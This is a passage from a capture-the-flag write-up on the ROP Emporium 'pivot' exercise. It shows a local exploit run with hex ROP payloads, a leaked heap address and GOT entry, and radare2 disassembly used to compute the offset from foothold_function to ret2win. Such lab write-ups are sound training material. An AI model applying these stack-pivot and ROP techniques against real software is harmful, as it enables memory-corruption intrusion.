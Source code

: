 Running it gets us:
```sh
$ python exploit.py
[+] Starting local process './pivot': pid 11740
pivot by ROP Emporium
64bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0x7fc8e6c89f10
Send your second chain now and it will land there
> 
Found heap_addr:  \x10\x9f���\x00\x00
Sending payload1:  5008400000000000730b40000000000048206000000000000008400000000000
Now kindly send your stack smash
> 
Sending payload2:  41414141414141414141414141414141414141414141414141414141414141414141414141414141000b400000000000109fc8e6c87f0000020b400000000000
foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.sop\xb9\x06��

[*] Stopped process './pivot' (pid 11740)
```

Ok so it does look like we received some bytes at the very end which are our GOT address.

The next step is to figure out the offset between the `foothold_function` and the `ret2win` functions in the `libpivot.so` library:
```asm
$ r2 -A libpivot.so

[0x00000870]> pdf @ sym.foothold_function 
/ (fcn) sym.foothold_function 24
|   sym.foothold_function ();
|           0x00000970      55             push rbp
|           0x00000971      4889e5         mov rbp, rsp
|           0x00000974      488d3d6d0100.  lea rdi, str.foothold_function____check_out_my_.got.plt_entry_to_gain_a_foothold_into_libpivot.so ; section..rodata ; 0xae8 ; "foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so" ; const char *format
|           0x0000097b      b800000000     mov eax, 0
|           0x00000980      e8bbfeffff     call sym.imp.printf         ; int printf(const char *format)
|           0x00000985      90             nop
|           0x00000986      5d             pop rbp
\           0x00000987      c3             ret

[0x00000870]> pdf @ sym.ret2win
/ (fcn) sym.ret2win 26
|   sym.ret2win ();
|           0x00000abe      55             push rbp
|           0x00000abf      4889e5         mov rbp, rsp
|           0x00000ac2      488d3d880000.  lea rdi, str.bin_cat_flag.txt ; 0xb51 ; "/bin/cat flag.txt" ; const char *string
|           0x00000ac9      e862fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000ace      bf00000000     mov edi, 0                  ; int status
\           0x00000ad3      e878fdffff     call sym.imp.exit           ; void exit(int status)

[0x00000870]> ? sym.ret2win - sym.foothold_function
hex     0x14e
octal   0516
unit    334
segment 0000:014e
int32   334
string  "N\x01"
binary  0b0000000101001110
fvalue: 334.0
```